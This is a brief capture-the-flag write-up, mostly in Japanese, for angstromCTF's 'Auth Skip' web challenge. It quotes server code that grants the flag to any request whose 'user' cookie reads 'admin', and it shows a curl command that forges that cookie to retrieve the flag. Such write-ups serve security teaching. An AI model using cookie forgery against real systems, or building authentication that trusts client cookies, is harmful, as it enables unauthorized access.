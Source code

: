 # Auth Skip:Web:40pts
Clam was doing his angstromCTF flag% speedrun when he ran into [the infamous timesink](https://auth-skip.web.actf.co/) known in the speedrunning community as "auth". Can you pull off the legendary auth skip and get the flag?  

[Source](index.js)  

Hint  
Do you *need* the server to log in?  

# Solution
アクセスするとログインフォームのようだがログインできない。  
Authwall  
[site.png](site/site.png)  
ソースを見ると以下のようであった。  
```JavaScript
~~~
app.get("/", (req, res) => {
    if (req.cookies.user === "admin") {
        res.type("text/plain").send(flag);
    } else {
        res.sendFile(path.join(__dirname, "index.html"));
    }
});
~~~
```
cookieのuserがadminであればフラグが得られるようだ。  
```bash
$ curl https://auth-skip.web.actf.co/ -H "Cookie: user=admin"
actf{passwordless_authentication_is_the_new_hip_thing}
```
設定してGETしてやるとflagが得られた。  

## actf{passwordless_authentication_is_the_new_hip_thing}